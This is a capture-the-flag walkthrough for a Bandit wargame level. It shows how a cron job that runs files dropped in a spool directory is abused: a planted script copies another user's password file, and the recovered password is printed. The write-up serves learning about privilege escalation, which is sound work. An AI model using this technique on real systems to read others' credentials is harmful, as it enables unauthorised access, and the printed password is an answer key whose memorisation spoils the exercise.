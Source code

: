 # Bandit Level 23

This time we have another program that runs at regular intervals, and are again told that looking in `/etc/cron.d`.

Looking at the cronjob `cronjob_bandit24`, it runs a script at `/usr/bin/cronjob_bandit24.sh`. This shell script is as follows:

```sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```

We can see that this script runs all code in `/var/spool/bandit24/foo` every minute. To exploit this we must write our own shell script to find us the password.

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/thisdirisours/passwd
```

We need to mark this script as executable so it can be run by the cronjob. We can do this with `chmod`.
> `chmod a+x <filename>`

We also need to create a file to receive the password, and give it the correct permissions. We create the file with `touch` and change the permissions with `chmod`.
> `touch passwd && chmod a=wr passwd`

Now we copy our script into `/var/spool/bandit24` and wait. Once the cronjob occurs and runs our script, there will be text in the `passwd` file.
Opening this file reveals the password: `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`
